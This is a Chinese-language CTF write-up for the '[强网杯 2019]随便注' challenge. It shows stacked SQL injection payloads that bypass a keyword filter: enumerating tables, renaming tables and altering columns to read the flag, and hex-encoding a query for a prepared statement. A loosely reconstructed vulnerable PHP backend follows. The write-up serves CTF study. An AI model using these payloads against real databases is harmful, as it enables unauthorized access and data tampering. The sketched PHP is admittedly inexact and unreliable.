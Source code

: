 # \[强网杯 2019]随便注

## \[强网杯 2019]随便注

## 考点

*

## wp

1. 打开靶机，随便提交，发现似乎是把 PHP 查询的原始结果之间返回了
2.  输入 select 发现了过滤语句，过滤了 select，update，delete，drop，insert，where 和 .

    `return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
3. 测试一下有没有注入。`?inject=1'%23`，返回正常，字符型注入
4.  过滤了这么多关键词，尝试堆叠注入。`?inject=1';show databases;%23`，看到了所有的数据库

    ![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_supersql\_1.png)
5.  再看一下所有的表。`?inject=1';show tables;%23`，1919810931114514 表和 words 表

    ![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_supersql\_2.png)
6. flag 在全数字的表里，默认查询的是 words 表

```
   ?inject=1';show columns from `1919810931114514`;%23
   ?inject=1';show columns from `words`;%23
```

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/sql/6.png)

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/sql/7.png)

1. 既然没过滤 alert 和 rename，那就可以把表和列改名。先把 words 改为 words1，再把数字表改为 words，然后把新的 words 表里的 flag 列改为 id ，这样就可以直接查询 flag 了
2.  构造 payload 如下

    ```
    /?inject=1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;%23
    ```
3. 使用 `/?inject=1' or '1'='1` 访问一下即可获得 flag

### 小结

1. MySQL中反引号和单引号的区别与用法
   1. MySql 中用一对反引号来标注 SQL 语句中的标识，如**数据库名、表名、字段名**等
   2. 引号则用来标注语句中所引用的字符型常量或日期/时间型常量，即**字段值**
   3. 例如：select \* from \`username\` where \`name\`="peri0d"
2.  PHP 代码推测，这里只是一个大概的流程，和实际可能有出入。参照 sqli-labs 里的代码

    ```
    <?php
    function waf($inject){
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
    	die('return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);');
    }

    if(isset($_GET['inject'])){
    	$id = $_GET['inject'];
    	waf($id);
    	
    	$con1 = mysqli_connect($host,$dbuser,$dbpass,$dbname);
    	$sql = "select * from `words` where ;";
    	
    	/* execute multi query */
    	if (mysqli_multi_query($con1, $sql)){
    		/* store first result set */
    		$result = mysqli_multi_query($con1);
    		if ($result)
    		{
    			if($row = mysqli_fetch_row($result))
    			{
    			  var_dump($row);
    			}
    		
    		}
    		/* print divider */
    		if (mysqli_more_results($con1))
    		{
    			echo "<hr>";
    		}
    	}
    	mysqli_close($con1);
    }

    ?>
    ```
3. MySQL 的 show、rename 和 alter 命令
   1. show 可以用于查看当前数据库，当前表，以及表中的字段
   2. rename 用于修改 table 的名称
   3. alter 用于修改表中字段的属性
4. 攻击思路：默认查询 words 表，可以将数字表的名称改成 words，这样就可以 使用 or '1'='1 直接查询 flag 了
5. 第二个思路是利用预编译，先构造一个sql语句，然后执行它，payload转化成16进制绕过waf

```
1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
```

这里的十六进制是

```
select * from `1919810931114514`
```
